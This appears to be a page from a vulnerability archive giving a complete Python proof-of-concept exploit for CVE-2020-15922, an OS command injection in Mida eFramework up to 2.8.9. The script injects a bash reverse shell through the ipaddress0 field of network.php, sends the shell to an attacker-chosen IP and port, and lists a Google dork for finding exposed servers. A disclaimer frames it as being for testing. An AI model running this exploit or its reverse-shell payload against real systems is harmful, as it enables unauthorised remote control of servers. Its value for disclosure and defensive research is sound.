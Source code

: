 <languages />

Затронутая версия
-----------------

    Version: <= 2.8.9

EXP
---

    # Exploit Title: Mida eFramework 2.8.9 - Remote Code Execution
    # Google Dork: Server: Mida eFramework
    # Date: 2020-08-27
    # Exploit Author: elbae
    # Vendor Homepage: https://www.midasolutions.com/
    # Software Link: http://ova-efw.midasolutions.com/
    # Reference: https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    # Version: <= 2.8.9
    # CVE : CVE-2020-15922


    #! /usr/bin/python3
    # -*- coding: utf-8 -*-

    import argparse
    import base64
    import random
    import requests
    import subprocess
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    def print_disclaimer():
        print("""
        ---------------------
        Disclaimer:
        1) For testing purpose only.
        2) Do not attack production environments.
        3) Intended for educational purposes only and cannot be used for law
    violation or personal gain.
        4) The author is not responsible for any possible harm caused by this
    material.
        ---------------------""")


    def print_info():
        print("""
    [*] PoC exploit for Mida eFramework 2.8.9 PDC (CVE-2020-15922)
    [*] Reference:https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    [*] Vulnerability: OS Command Injection RCE in PDC/pages/network.php -
    Reverse Shell
        ./CVE-2020-15922 http://192.168.1.60:8090/PDC/pages/network.php rev-IP
    rev-PORT """)

    def run_cmd(url,ip,port):
        rev_shell = "sudo bash -i >& /dev/tcp/{0}/{1} 0>&1".format(ip,port)
        print("[+] Reverse shell: {0}".format(rev_shell))
        data = {
            "submit":"True",
            "ipaddress0":"; {0}".format(rev_shell),
            "netmask0":"",
            "gateway0":"",
            "dns1":"",
            "dns2":""
        }
        # exec rev shell
        print("[*] Starting reverse shell to {0} {1}...".format(ip,port))
        try:
            r = requests.post(url,data=data,verify=False,timeout=1)
        except requests.exceptions.ReadTimeout:
            print("[?] ...check if it worked")
            pass

    def main():
        print_info()
        print_disclaimer()
        parser = argparse.ArgumentParser()
        parser.add_argument("target", type=str,
            help="the complete target URL")
        parser.add_argument("ip", type=str,
            help="the ip address for reverse shell")
        parser.add_argument("port", type=str,
            help="the port for reverse shell")
        args = parser.parse_args()
        run_cmd(args.target, args.ip, args.port)

    if __name__ == '__main__':
        main()
